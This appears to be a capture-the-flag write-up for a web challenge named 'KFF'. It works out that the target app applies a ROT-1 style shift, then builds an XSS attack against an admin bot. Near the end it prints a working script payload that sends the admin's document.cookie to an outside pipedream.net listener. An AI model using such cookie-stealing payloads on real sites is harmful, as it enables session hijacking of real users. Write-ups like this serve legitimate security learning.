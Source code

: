 # KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

# Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](../images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.

![2](../images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:

![3](../images/kff_6.png)

We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:

![4](../images/kff_7.png)

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!


![5](../images/kff_4.png)

... And we were right!!!

Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=` is the listening server we control with a cookie request `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```



![6](../images/kff_5.png)

[Go back to Web challenges](./)
